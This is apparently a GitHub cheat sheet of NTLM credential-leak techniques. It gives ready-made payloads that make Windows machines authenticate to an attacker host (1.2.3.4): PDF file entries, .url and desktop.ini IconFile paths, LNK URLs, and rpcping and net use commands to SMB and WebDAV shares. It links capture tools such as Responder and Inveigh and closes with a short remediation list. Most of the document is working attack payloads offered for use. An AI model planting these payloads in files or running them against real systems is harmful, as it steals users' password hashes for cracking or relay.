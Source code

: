 # All_NTLM_leak


## PDF file
/F (\\\\\\\\IP@80\\\\t)

## dubdoc
///1.2.3.4@80/t
## Doc
Target=file://1.2.3.4@80/t.dotx
URL
file://IP@80/t.htm
## lnk
URL\=file://1.2.3.4@80/t.htm
## IconFile
\\\\1.2.3.4@80\\t.ico
## rpcping
rpcping -s 1.2.3.4 -e 1234 -a privacy -u NTLM
## dir
dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Net command + WebDAV envoke
* net use \\\\1.2.3.4@80\\t
* net use * \\\\1.2.3.4@SSL@443\\folder\\subfolder password /user:userID
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* net use * http://1.2.3.4/folder/subfolder password /user:root
* net use * \\\\1.2.3.4\\folder\\subfolder password /user:userID
* net use \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe \. (the DavWWWRoot triggers WebDAV forcibly )
* net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Create .url file to leak using “ICO” request to file share
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url

## Create desktop.ini file to leak credentials using a folder
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini

## Proxy bypass adress is Intranet for NTLM auto auth
https://github.com/Gl3bGl4z/steal_NTLM_ncat

## Dir, IE/EDGE, Office, URL, LNK, HREF, Media Player, Java web start, ClickOnce
https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html

## Leak credentials using HTML
https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML

## Remediation
Enforce SMB Signing – To prevent attackers from launching simpler NTLM relay attacks, turn on SMB Signing on all machines in the network.<br>
Block NTLMv1 – Since NTLMv1 is considered significantly less secure; it is recommended to completely block it by setting the appropriate GPO.<br>
Enforce LDAP/S Signing – To prevent NTLM relay in LDAP, enforce LDAP signing and LDAPS channel binding on domain controllers.<br>
Enforce EPA – To prevent NTLM relay on web servers, harden all web servers (OWA, ADFS) to accept only requests with EPA.

## KBs
* https://www.bleepingcomputer.com/news/security/understanding-the-windows-credential-leak-flaw-and-how-to-prevent-it/
* https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/
* https://www.helpnetsecurity.com/2017/05/15/stealing-windows-credentials-using-google-chrome/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/introducing-responder-10/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-17/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-part-2/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/responder-20-owning-windows-networks-part-3/
* https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/
* https://twitter.com/mynameisv__/status/1123256857072742400
* https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rpcping.yml
* https://github.com/cure53/HTTPLeaks
* https://www.helpnetsecurity.com/2019/06/11/microsoft-ntlm-vulnerabilities/
* https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd560653(v=ws.10)
* https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers
* https://blogs.technet.microsoft.com/askds/2009/10/08/ntlm-blocking-and-you-application-analysis-and-auditing-methodologies-in-windows-7/

## tools
* https://github.com/deepzec/Bad-Pdf
* https://github.com/elnerd/Get-NetNTLM
* https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML
* https://github.com/cure53/HTTPLeaks
* https://github.com/SpiderLabs/Responder
* https://github.com/Kevin-Robertson/Inveigh
